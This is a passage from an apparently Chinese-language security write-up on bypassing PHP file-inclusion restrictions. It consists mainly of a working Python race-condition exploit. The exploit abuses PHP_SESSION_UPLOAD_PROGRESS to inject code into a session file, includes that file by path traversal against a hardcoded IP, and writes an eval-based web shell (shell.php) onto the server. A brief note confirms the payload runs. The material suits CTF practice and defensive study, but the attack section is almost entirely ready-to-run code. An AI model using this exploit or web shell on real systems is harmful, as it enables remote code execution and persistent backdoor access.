 ### <a class="reference-link" name="Bypass%E6%94%BB%E5%87%BB%E5%88%A9%E7%94%A8"></a>Bypass攻击利用

<a class="reference-link" name="%E8%84%9A%E6%9C%AC%E5%88%A9%E7%94%A8%E6%94%BB%E5%87%BB"></a>**脚本利用攻击**
- **编写Exp**
```
import io
import sys
import requests
import threading

sessid = 'Qftm'

def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://192.33.6.145/index.php',
            data=`{`"PHP_SESSION_UPLOAD_PROGRESS":"&lt;?php phpinfo();fputs(fopen('shell.php','w'),'&lt;?php @eval($_POST[mtfQ])?&gt;');?&gt;"`}`,
            files=`{`"file":('q.txt', f)`}`,
            cookies=`{`'PHPSESSID':sessid`}`
        )

def READ(session):
    while True:
        response = session.get(f'http://192.33.6.145/index.php?file=../../../../../../../../var/lib/php/sessions/sess_`{`sessid`}`')
        # print('[+++]retry')
        # print(response.text)

        if 'flag' not in response.text:
            print('[+++]retry')
        else:
            print(response.text)
            sys.exit(0)

with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()

    READ(session)
```
- **运行攻击效果**
在服务器中可以看到生成：sess_Qftm

[![](https://p2.ssl.qhimg.com/t0161180c0007e15cf0.png)](https://p2.ssl.qhimg.com/t0161180c0007e15cf0.png)

同时恶意代码也会正常执行
